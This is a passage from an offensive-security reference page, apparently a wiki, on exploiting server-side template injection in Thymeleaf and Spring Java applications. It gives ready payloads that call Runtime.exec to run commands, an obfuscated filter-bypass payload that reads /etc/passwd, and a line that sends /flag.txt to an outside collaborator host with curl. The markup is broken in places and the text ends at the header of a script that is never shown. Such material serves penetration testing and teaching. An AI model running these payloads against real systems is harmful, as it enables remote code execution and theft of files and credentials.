 However, the likelihood of this payload working is generally low. Thymeleaf's default configuration doesn't support dynamic template generation; templates must be predefined. Developers would need to implement their own `TemplateResolver` to create templates from strings on-the-fly, which is uncommon.

Thymeleaf also offers _expression preprocessing_, where expressions within double underscores (`__...__`) are preprocessed. This feature can be utilized in the construction of expressions, as demonstrated in Thymeleaf's documentation:

```java
#{selection.__${sel.code}__}
```
```
**Example of Vulnerability in Thymeleaf**

Consider the following code snippet, which could be susceptible to exploitation:

```xml
<a th:href="@{__${path}__}" th:title="${title}">
<a th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('curl -d @/flag.txt burpcollab.com')}" th:title='pepito'>
```
```
This indicates that if the template engine processes these inputs improperly, it might lead to remote code execution accessing URLs like:

```
http://localhost:8082/(7*7)
http://localhost:8082/(${T(java.lang.Runtime).getRuntime().exec('calc')})
```
```
**More information**

- [[https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/|https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/]]

[[el-expression-language.md]]

### Spring Framework (Java)

```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```
```
**Bypass filters**

Multiple variable expressions can be used, if `${...}` doesn't work try `#{...}`, `*{...}`, `@{...}` or `~{...}`.

- Read `/etc/passwd`

```java
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
```
- Custom Script for payload generation

```python
#!/usr/bin/python3

## Written By Zeyad Abulaban (zAbuQasem)
```